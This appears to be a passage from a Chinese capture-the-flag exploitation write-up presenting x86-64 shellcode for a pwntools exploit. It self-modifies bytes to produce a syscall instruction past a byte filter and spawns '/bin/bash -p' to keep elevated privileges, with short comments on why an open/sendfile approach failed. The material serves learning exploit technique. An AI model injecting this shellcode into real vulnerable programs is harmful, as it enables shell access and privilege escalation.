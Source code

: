 ```python
push 0x50e
inc qword ptr[rsp]
jmp rsp					# 由于jmp跳入syscall后无法返回【由于进入syscall所在内存后，接下来的都是代码Hex0】    
            # ，因此orw【open+sendfile】均不可行.... 暂时只能使用execve调用，然后使用-p参数绕过限制【见下】
mov rdi, 1               
mov rsi, rax
mov rdx, 0
mov r10, 1000
mov rax, 0x28
push 0x50e
inc qword ptr[rsp]
jmp rsp
```
## push,pop 实现( /bin/bash -p)
```
sh = asm('''
    jmp two
one:
    pop rdi

    push 0x0
    push 0x702d                            # "-p" 参数 
    push rsp
    pop rdx
    
    push 0x0
    push rdx
    push rdi
    push rsp
    pop rsi
    
    push 0x0
    pop rdx
    push 0x3b
    pop rax
    
    push 0x050e
    inc qword ptr [rsp]
    jmp rsp
    nop
two:
    call one
    .string "/bin/bash"
''')
# print(bytes(shellcode)) #shellcode转为字节流，asm曾经用不了....
```
![](https://i-blog.csdnimg.cn/blog_migrate/d3ba06c044c894d83df472ace003b4e9.png)

## ♥简化版 execve(/bin/bash -p)
>  execve(path='/bin/bash', argv=['/bin/bash','-p'], envp=0)
